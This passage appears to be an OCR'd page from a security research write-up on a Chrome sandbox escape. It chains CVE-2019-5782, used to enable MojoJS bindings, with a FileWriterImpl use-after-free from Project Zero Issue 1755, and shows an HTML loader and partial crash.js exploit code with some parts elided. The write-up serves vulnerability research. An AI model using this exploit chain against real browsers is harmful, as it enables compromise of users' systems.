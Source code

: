 * A user visit our specially crafted HTML page.
* With CVE-2019-5782, we set `enabled_bindings_` value accordingly to enable MojoJS binding. Then reload the page.
* With Mojo now exposed to JS context, the page can communicate with Mojo IPC interface directly.
* Execute the UAF exploit to free FileWriterImpl.

When the browser process use the stale pointer inside the unretained FileWriterImpl reference, the browser will crash.

We are reusing some of the code in the attached exploit at [Issue 1755 bug tracking](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755). The simplified code is as follows:

 "&gt;

```text


<script src="/many_args.js">script>
<script src="/enable_mojo.js">script>
<script src="/crash.js">script>

<script>
  let oob = new many_args(); // setup OOB read/write
  if (typeof(Mojo) !== "undefined") {
    print('[enable_mojo] mojo already enabled')
    crash(oob);
  } else {
    enable_mojo(oob);
  }
script>
```

```text
// crash.js

async function CreateWriter() {
  // create writer from blink.mojom.FileSystemManagerPtr ...
}

async function RegisterBlob0() {
  // register blob_0 to blob registry ...
}

async function crash(oob) {
  print('[sandbox_escape] exploiting issue_1755 to escape sandbox and crash browser');

  var writer = await CreateWriter()

  print('  [*] crafting renderer-hosted blob implementation')
  function Blob0Impl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }
  Blob0Impl.prototype = {
    getInternalUUID: async (arg0) => {
      print('  [*] getInternalUUID is called');

      print('  [!] freeing FileWriterImpl');
      create_writer_result.writer.ptr.reset();

      // sleep 3 seconds ...

      print('  [*] resuming FileWriterImpl::DoWrite, prepare to crash');
      return {'uuid': 'blob_0'};
    }
  };

```